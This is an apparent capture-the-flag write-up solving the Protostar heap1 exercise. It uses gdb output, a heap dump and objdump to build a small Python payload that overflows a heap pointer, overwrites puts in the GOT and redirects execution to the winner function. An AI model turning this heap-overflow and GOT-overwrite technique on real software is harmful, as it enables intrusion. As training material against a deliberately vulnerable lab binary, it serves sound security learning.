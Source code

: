 ### S0lv3d by H4yicl3


link https://exploit-exercises.com/protostar/heap1/

```
compile with  gcc -m32 -o heap1 heap1.c
```

try to analysis it with gdb
```asm
pdis main
0x0804855f <+94>:    mov    edx,eax
b *main+94
0x08048583 <+130>:   mov    eax,DWORD PTR [ebp+0xc]
b *main+130


gdb-peda$ x/40wx 0x0804b000 
0x804b000:      0x00000000      0x00000011      0x00000001      0x0804b018
0x804b010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804b020:      0x00000000      0x00000011      0x00000002      0x0804b038
0x804b030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804b040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804b050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b090:      0x00000000      0x00000000      0x00000000      0x00000000
```

that heap data let us know many information in the heap
so strcpy(i1->name, argv[1]); let us overflow the address i2->name
so we can overflow it with address puts.got = i2->name
so when strcpy(i2->name, argv[2]); is called it make us can redirect to puts then 
the following code look like puts(argument) then return
we overflow the retn after puts is called !!
so the retn = winner_address
```
gdb-peda$ p winner
$1 = {<text variable, no debug info>} 0x80484dd <winner>
```

heap start at 0x804b0018
need change at 0x804b02c
the offset = 0x2c-0x18 = 0x14 = 20

address of puts_got
```
hayicle@ubuntu:~/ctf/protostar/heap$ objdump -R heap1

heap1:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804a01c R_386_JUMP_SLOT   puts
...
```

the python code look like
```python
padding ="A"*0x14
puts_got="\x1c\xa0\x04\x08" 
address_winner="\xdd\x84\x04\x08"
print padding + puts_got
```

try to run this
```
hayicle@ubuntu:~/ctf/protostar/heap$ ./heap1 `cat input` `echo -en "\xdd\x84\x04\x08"`
and we have a winner @ 1483330310
```

good luck !! not fun =]]~
